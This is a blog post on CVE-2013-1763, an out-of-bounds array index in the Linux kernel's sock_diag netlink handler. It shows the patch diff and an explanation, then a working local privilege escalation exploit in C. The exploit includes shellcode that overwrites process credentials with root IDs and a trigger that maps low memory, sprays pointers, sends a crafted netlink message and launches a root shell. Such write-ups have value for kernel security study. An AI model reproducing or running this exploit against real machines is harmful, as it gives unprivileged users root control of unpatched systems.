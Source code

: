 +++
title = "CVE-2013-1763" 
date =  "2014-04-19"
tags = ["exploit", "security", "networking"]
categories = [
    "Blog",
    "Exploit" ]
+++

Userland can send a netlink message requesting `SOCK_DIAG_BY_FAMILY` with a family greater or equal then `AF_MAX` -- the array size of `sock_diag_handlers[]`. The current code does not test for this condition therefore is vulnerable to an out-of-bound access opening doors for a privilege escalation.

Vulnerability
--------------

```diff
diff --git a/net/core/sock_diag.c b/net/core/sock_diag.c
index 602cd63..750f44f 100644
--- a/net/core/sock_diag.c
+++ b/net/core/sock_diag.c
@@ -121,6 +121,9 @@ static int __sock_diag_rcv_msg(struct sk_buff *skb, struct nlmsghdr *nlh)
  if (nlmsg_len(nlh) < sizeof(*req))
    return -EINVAL;
 
+ if (req->sdiag_family >= AF_MAX)
+   return -EINVAL;
+
  hndl = sock_diag_lock_handler(req->sdiag_family);
  if (hndl == NULL)
    err = -ENOENT;
  else
    err = hndl->dump(skb, nlh); // hndl->dump executes !!
```


In `__sock_diag_rcv_msg` function, userland variable `req->sdiag_family` is passed uncheckly to `sock_diag_handler`, within which overflow and exploit happens.

```c
static const inline struct sock_diag_handler *sock_diag_lock_handler(int family)
{
  if (sock_diag_handlers[family] == NULL)
    request_module("net-pf-%d-proto-%d-type-%d", PF_NETLINK, NETLINK_SOCK_DIAG, family);

  mutex_lock(&sock_diag_table_mutex);
  return sock_diag_handlers[family];
}
```

Here the function returns a pointer `sock_diag_handlers + family`.

```c
struct sock_diag_handler {
  __u8 family;
  int (*dump)(struct sk_buff *skb, struct nlmsghdr *nlh);
};
hndl = sock_diag_lock_handler(req->sdiag_family);
hndl->dump(skb, nlh); //(sock_diag_handlers + family + 8) executes !!
```

All story told, here we find that finally `(sock_diag_handlers + family + 8)` executes in kernel mode. 

Exploits
---------

1. Craft a piece of shell code.
2. Calcualte the value of `family` which points `sock_diag_handlers + family + 8` to the shell code.
3. Construct a package with large `family` and set it.
4. You got it.


Shell code
-----------

1. get `current` (pointer to the current process descriptor `task_struct`)
2. Manipulate `process credentials`

```c
static long ugid;
void patch_current() {
    int i,j,k;
    char *current = *(char**)(((long)&i) & (-8192));
    long kbase = ((long)current)>>36;
    
    for (i=0; i<4000; i+=4) {
        long *p = (void *)&current[i];
        int *t = (void*) p[0];
        if ((p[0] != p[1]) || ((p[0]>>36) != kbase)) continue;
        for (j=0; j<20; j++) {
            for (k = 0; k < 8; k++)
            if (((int*)&ugid)[k%2] != t[j+k])
            goto next;
            for (i = 0; i < 8; i++)
            t[j+i] = 0;
            for (i = 0; i < 10; i++)
            t[j+9+i] = -1;
            return;
next:;
        }
    }
}
```


Crafted a package
-----------------

```c
struct {
  struct nlmsghdr nlh;
  struct unix_diag_req r;
} req;

struct nlmsghdr {
  __u32   nlmsg_len;  /* Length of message including header */
  __u16   nlmsg_type; /* Message content */
  __u16   nlmsg_flags;  /* Additional flags */
  __u32   nlmsg_seq;  /* Sequence number */
  __u32   nlmsg_pid;  /* Sending process port ID */
};

struct unix_diag_req {
  __u8  sdiag_family;
  __u8  sdiag_protocol;
  __u16 pad;
  __u32 udiag_states;
  __u32 udiag_ino;
  __u32 udiag_show;
  __u32 udiag_cookie[2];
};
```

Trigger
---------

```c
int main()
{
  long u = getuid();
  long g = getgid();
  int i, f = socket(16,3,4);
  static int n[10] = {40,0x10014,0,0,45,-1};
 
  assert(mmap((void*)(1<<12), 1<<20, 3, 0x32, 0, 0)!=-1);
 
  setresuid(u,u,u); setresgid(g,g,g);
  ugid = (g<<32)|u;
 
  memcpy(1<<12, &patch_current, 1024);
  for (i = 0; i < (1<<17); i++) ((void**)(1<<12))[i] = &patch_current;
  send(f, n, sizeof(n), 0);
  setuid(0);
  return execl("/bin/bash", "-sh", 0);
}
```

Reference
----------

All credit goes to the authors of [this][1] and [this][2] exploits.

[1]: http://www.exploit-db.com/exploits/24746/
[2]: http://www.exploit-db.com/exploits/24555/
